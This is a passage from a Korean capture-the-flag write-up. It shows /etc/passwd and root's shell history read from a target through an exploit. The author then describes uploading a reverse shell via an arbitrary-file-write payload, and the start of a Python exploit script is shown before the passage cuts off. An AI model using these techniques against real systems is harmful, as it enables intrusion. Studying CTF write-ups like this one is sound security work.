 {: file="exploit.py" }

/etc/passwd 내용을 보면 아래와 같습니다.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
scheduler:x:1000:1000::/home/scheduler:/bin/bash
```

특이하게 scheduler 사용자가 보입니다.

그전에 우선 root 의 .bash_history 파일에 접근 가능한지 살펴보겠습니다.

```shell
cd /
mkdir cronjobs
cd cronjobs
mkdir scripts
chmod 755 .
chmod 777 scripts
scp root@buffalo-server.local:~/scheduler.php .
nohup php scheduler.php &
exit
```

그랬더니 /cronjobs/scripts/ 하위 디렉터리에 scheduler.php 파일을 생성하고 수행 중인 것을 확인할 수 있습니다. 다만 scheduler.php 파일의 내용은 권한이 부족해서인지 읽어볼 수가 없었습니다.

또한 cronjobs 하위 디렉터리에 scripts 디렉터리를 생성한 것으로 보아 해당 디렉터리에서 임의의 shell script를 실행하는 것으로 유추됩니다.

때문에 이전 문제에서 사용했던 임의 경로에 임의의 파일 내용을 읽어와 저장하는 페이로드를 사용해서 리버스 쉘을 올려보았습니다.

```python
import time
import sys
import base64
import requests
from hashlib import sha1
client = requests.Session()
def getPow(p):
    for i in range(0, 10000000):
        if sha1(str(i).encode()).hexdigest()[:5] == p:
            return i
cookie = '4903b3e04c24129e61f615b6be8b609f'
ip = '3.39.255.32'
url = f'http://{ip}/cs/report.php'
res = client.get(url=url, headers={
```
